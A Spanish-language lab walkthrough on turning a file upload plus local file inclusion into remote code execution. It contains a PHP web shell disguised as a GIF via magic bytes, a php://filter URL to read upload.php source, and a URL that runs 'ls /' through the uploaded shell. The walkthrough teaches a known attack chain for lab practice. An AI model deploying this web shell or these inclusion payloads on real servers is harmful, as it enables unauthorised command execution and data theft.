

# LFI: File Upload -> RCE 👩‍💻

La página web que vulnerarmos es



* **(1)** Este apartado sirve para subir una **imagen de perfil**
* **(2)** Notamos que se referencia a un Archivo `.php` 

---

Para poder derivar de `Subir un Archivo` a un `RCE` existen múltiple técnicas, en este laboratorio cambiaré los `magic bytes` de un archivo.

```
Con esto 'engañaremos' al servidor para hacerle creer que subimos un archivo gif, pero, en realidad tendrá código PHP
```

---

* **shell.gif**

```php
GIF8;
<?php system($_GET['cmd']); ?>
```

Subiremos el archivo en el apartado `Profile Settings` 

---

Para saber el **directorio** en el que se suben las imagenes veremos 

<p align="center">
    
</p>

* Tenemos el **archivo .php** que se encarga de la subida de archivos.

---

Ahora, usaremos un `wrapper` para obtener el contenido del archivo `upload.php`

* **URL** `http://<IP Web>:<Puerto>/index.php?language=php://filter/read=convert.base64-encode/resource=upload.php`

<p align="center">
    
</p>

---

Si decodeamos la cadena en **bas64 obtenida** tenemos

```bash
echo "[Base64 Data]" | base64 -d;echo
```

<p align="center">
    
</p>

* Sabemos que el directorio es `./profile_images/`
---

Accedemos a la imagen ubicada en ese directorio y listamos el contenido de la raiz

* **URL** `http://<IP Web>:<Puerto>/index.php?language=php://filter/read=convert.base64-encode/resource=./profile_images/shell.gif&cmd=ls /`

<p align="center">
    
</p>

---

Por último, leemos el contenido del archivo anterior

<p align="center">
    
</p>